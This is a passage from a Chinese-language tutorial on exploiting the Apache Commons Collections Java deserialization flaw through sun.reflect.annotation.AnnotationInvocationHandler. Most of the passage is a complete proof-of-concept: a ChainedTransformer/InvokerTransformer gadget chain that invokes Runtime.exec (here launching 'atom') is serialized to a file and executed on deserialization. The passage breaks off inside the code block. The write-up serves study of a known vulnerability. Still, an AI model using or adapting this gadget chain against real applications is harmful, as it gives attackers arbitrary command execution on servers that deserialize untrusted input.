 
如何利用该漏洞呢，需要找到一个可以利用该漏洞的类：
1、自定义了反序列化方法。
2、类存在属性Map
3、有对Map对象赋值操作。

刚刚好`sun.reflect.annotation.AnnotationInvocationHandler`满足该类。该类有个Map属性，同时实现了反序列化方法，同时在反序列化的时候对Map进行了赋值。
```java
public class Main {
    public static void main(String[] args) throws Exception {

        save("obj.out");
        load("obj.out");
    }

    public static Map save(String filePath) throws Exception {
        //构造需要的Map
        Transformer[] transformers = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{
                                "getRuntime", null
                        }),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{
                                null,
                                new Object[0]
                        }),
                new InvokerTransformer("exec",
                        new Class[]{
                                String.class},
                        new Object[]{"atom"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map<String, String> map = new HashMap<>();
        //重点：key的值必须为value
        map.put("value", "value");
        Map outMap = TransformedMap.decorate(map, null, chainedTransformer);
        //反射构造对象
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Target.class, outMap);
        //序列化对象
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(filePath));
        outputStream.writeObject(obj);
        outputStream.close();
        return outMap;

    }

    /**
     * 反序列化
     * @param filePath
     * @return
     * @throws Exception
     */
    public static Object load(String filePath) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(filePath));
        Object obj = inputStream.readObject();
        inputStream.close();
        return obj;
```